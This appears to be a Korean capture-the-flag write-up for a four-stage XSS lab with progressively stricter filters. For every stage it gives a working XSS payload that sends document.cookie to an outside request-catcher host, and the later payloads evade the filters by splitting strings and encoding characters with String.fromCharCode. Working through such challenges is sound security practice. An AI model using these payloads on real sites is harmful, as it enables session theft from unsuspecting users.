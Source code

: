 이문제는 1단계부터 4단계까지 XSS 공격에 대한 필터를 점차 강화하면서 그거를 해결할때마다 다음 단계의 링크를 주는 문제
=> 이 문제를 푸는데는 이 전날에 풀었었던 웹해킹 XS-Search 문제가 크게 도움을 줌

1단계:
![image](https://github.com/DA2RIM/N0PSctf/assets/171825457/f664d941-8798-4135-a50f-ed6e3a052a57)

스크립트 : <script>location.href = "https://ikdlgok.request.dreamhack.games?cookie=" + document.cookie;</script>

![XSS Lab-1-2](https://github.com/DA2RIM/N0PSctf/assets/171825457/b516cfbd-fc77-4801-969b-f2c73d7811dd)

2단계:
![image](https://github.com/DA2RIM/N0PSctf/assets/171825457/a100c36f-5520-4820-b8fd-bfc65716ef4d)

스크립트 : <iframe onload='location.href="https://ziasnlk.request.dreamhack.games?cookie="+document.cookie'></iframe>

![XSS Lab-2-1](https://github.com/DA2RIM/N0PSctf/assets/171825457/ff5af29d-3c4c-4ebb-a2e3-6b55c0d2bcb8)

3단계 :
![image](https://github.com/DA2RIM/N0PSctf/assets/171825457/6d90f97b-1003-4813-95a4-f7c6fadb7184)

스크립트 : 
<iframe onload='location.href="https:/ziasnlk.request.dreamhack.games?coookie="+window["docu" + "ment"]["coo" + "kie"]'></iframe> 


4단계 :
![image](https://github.com/DA2RIM/N0PSctf/assets/171825457/a4d833eb-c953-44c1-9c5b-d70c4e03bed5)

스크립트 : <iframe onload='location.href=String.fromCharCode(104,116,116,112,115,58,47,47,103,121,102,116,117,105,98,46,114,101,113,117,101,115,116,46,100,114,101,97,109,104,97,99,107,46,103,97,109,101,115,63,99,111,111,107,105,101,61) .concat(window[String.fromCharCode(100,111,99,117,109,101,110,116)] [String.fromCharCode(99,111,111,107,105,101)])'>

![XSS Lab-final](https://github.com/DA2RIM/N0PSctf/assets/171825457/14d3e825-cf8a-4f34-9118-c56c42760c06)

4단계처럼 풀거였으면 1,2,3 단계도 다 아스키코드로 풀어도 됐을듯,,

